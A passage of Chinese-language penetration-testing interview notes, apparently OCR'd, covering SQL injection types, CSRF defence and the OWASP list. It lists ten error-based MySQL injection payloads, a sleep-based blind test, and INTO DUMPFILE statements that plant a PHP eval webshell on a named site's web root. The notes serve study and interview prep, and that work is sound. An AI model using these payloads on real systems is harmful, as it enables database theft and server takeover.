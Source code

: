 3）延时注入    

4）宽字节注入

### 五，报错注入的函数有哪些？ 

10个   

 1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】----------------    
 2）通过floor报错 向下取整   
 3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)    
 4）.geometrycollection()select* from test where id=1 and geometrycollection((select *from(select*from(select user())a)b));
 5）.multipoint()select *from test where id=1 and multipoint((select* from(select *from(select user())a)b));    
 6）.polygon()select* from test where id=1 and polygon((select *from(select* from(select user())a)b));
 7）.multipolygon()select *from test where id=1 and multipolygon((select* from(select *from(select user())a)b));   
 8）.linestring()select* from test where id=1 and linestring((select *from(select* from(select user())a)b));
 9）.multilinestring()select *from test where id=1 and multilinestring((select* from(select *from(select user())a)b));   
10）.exp()select* from test where id=1 and exp(~(select * from(select user())a));



### 五，延时注入如何来判断？

  if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)

### 六，盲注和延时注入的共同点？

都是一个字符一个字符的判断

### 七，如何拿一个网站的webshell？

上传，后台编辑模板，sql注入写文件，命令执行，代码执行，
一些已经爆出的cms漏洞，比如dedecms后台可以直接建立脚本文件，wordpress上传插件包含脚本文件zip压缩包等
###  八，sql注入写文件都有哪些函数？
select '一句话' into outfile '路径'
select '一句话' into dumpfile '路径'
select '<?php eval($_POST[1]) ?>' into dumpfile  'd:\wwwroot\baidu.com\nvhack.php';

### 九，如何防止CSRF?
1,验证referer
2，验证token
详细：<http://cnodejs.org/topic/5533dd6e9138f09b629674fd>

### 十，owasp 漏洞都有哪些？
1、SQL注入防护方法
 2、失效的身份认证和会话管理
3、 跨站脚本攻击XSS
 4、直接引用不安全的对象
 5、安全配置错误
 6、敏感信息泄露
7、缺少功能级的访问控制
8、跨站请求伪造CSRF
 9、使用含有已知漏洞的组件
10、未验证的重定向和转发
